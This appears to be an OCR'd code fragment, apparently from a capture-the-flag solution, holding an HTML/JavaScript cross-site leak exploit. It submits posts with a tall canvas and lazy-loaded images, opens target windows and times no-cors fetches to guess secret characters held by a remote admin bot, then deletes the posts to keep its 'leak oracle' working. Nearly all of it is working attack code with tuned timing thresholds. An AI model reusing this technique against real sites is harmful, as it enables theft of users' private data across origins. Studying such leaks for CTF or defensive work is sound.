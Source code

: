 ``` html
      
    }, 0)

    async function testChar(str) {
      return new Promise(resolve => {
          /*
            For 3350, you need to test it on your local to get this number.
            The basic idea is, if your post starts with "Z", the image should not be loaded because it's under lazy loading threshold
            If starts with "A", the image should be loaded because it's in the threshold.
          */
          inp.value = str + '<br><canvas height="3350px"></canvas><br>'+Array.from({length:20}).map((_,i)=>`<img loading=lazy src=/?${i}>`).join('')
          f.submit()

          setTimeout(() => {
            run(str, resolve)
          }, 500)
      })
    }

    async function run(str, resolve) {
    // if the request is not enough, we can send more by opening more window
      for(let i=1; i<=5;i++) {
        window.open(TARGET)
      }
      
      let t = 0
      const round = 30
      setTimeout(async () => {
        for(let i=0; i<round; i++) {
          let s = performance.now()
          await fetch(TARGET + '/?test', {
            mode: 'no-cors'
          }).catch(err=>1)
          let end = performance.now()
          t += end - s
          console.log(end - s)
        }
        const avg = t/round
        send(str + "," + t + "," + "avg:" + avg)

        /*
          I get this threshold(1000ms) by trying multiple times on remote admin bot
          for example, A takes 1500ms, Z takes 700ms, so I choose 1000 ms as a threshold
        */
        const isFound = (t >= 1000)
        if (isFound) {
          inp2.value = "0"
        } else {
          inp2.value = "1"
        }

        // remember to delete the post to not break our leak oracle
        f2.submit()
        setTimeout(() => {
          resolve(isFound)
        }, 200)
      }, 200)
    }
    
  </script>

```